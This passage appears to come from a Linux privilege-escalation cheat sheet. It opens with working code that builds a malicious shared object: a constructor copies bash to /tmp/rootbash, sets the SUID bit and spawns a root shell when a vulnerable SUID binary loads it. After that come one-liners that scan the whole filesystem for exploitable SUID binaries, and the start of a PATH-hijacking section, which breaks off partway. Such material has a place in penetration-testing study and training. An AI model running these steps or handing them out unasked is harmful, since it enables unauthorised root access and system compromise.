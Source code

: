 ```bash
# Find missing shared objects with strace
strace /path/to/suid/binary 2>&1 | grep -i -E "open|access|no such file"

# Alternative: use ltrace to also see library calls
ltrace /path/to/suid/binary 2>&1 | grep -i -E "open|access|dlopen"

# Create malicious shared object
cat > /tmp/evil.c << EOF
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p");
}
EOF

# Compile shared object
gcc -shared -fPIC -o /path/to/missing.so /tmp/evil.c

# Run the SUID binary
/path/to/suid/binary

# Execute with elevated privileges
/tmp/rootbash -p
```

### One-liners to Hunt for Vulnerable SUID Binaries

````bash
# Find SUID programs calling system() function
for suid in $(find / -type f -perm -4000 2>/dev/null); do strings $suid | grep -i "system(" && echo "System call found in $suid"; done

# Find SUID programs importing insecure library functions
for suid in $(find / -type f -perm -4000 2>/dev/null); do objdump -T $suid 2>/dev/null | grep -E "system|exec|fork|bash" && echo "Vulnerable import in $suid"; done

# Check for SUID programs with relative path bin calls
for suid in $(find / -type f -perm -4000 2>/dev/null); do strings $suid | grep -E "^[a-zA-Z0-9_-]{1,30}$" | sort -u | xargs which 2>/dev/null | grep -v "^/"; done

# Find custom (non-standard) SUID binaries that might be vulnerable
find / -type f -perm -4000

#Check the strings in SUID binary, espcially if it looks custom and see if its calling other programs or executing files without full path

### Environment Variable Exploitation

#### For Relative Binary References
Requirements:
- SUID binary makes relative calls to other programs
- Control over PATH environment variable

```bash
# Check for binary calls using strings
strings /usr/local/bin/suid-binary | grep -E "exec|system|popen|fork"

# Determine if binary uses system() or execve() with relative paths
strace -v -f -e execve /usr/local/bin/suid-binary 2>&1 | grep exec

# Alternative: use ltrace to track library calls
````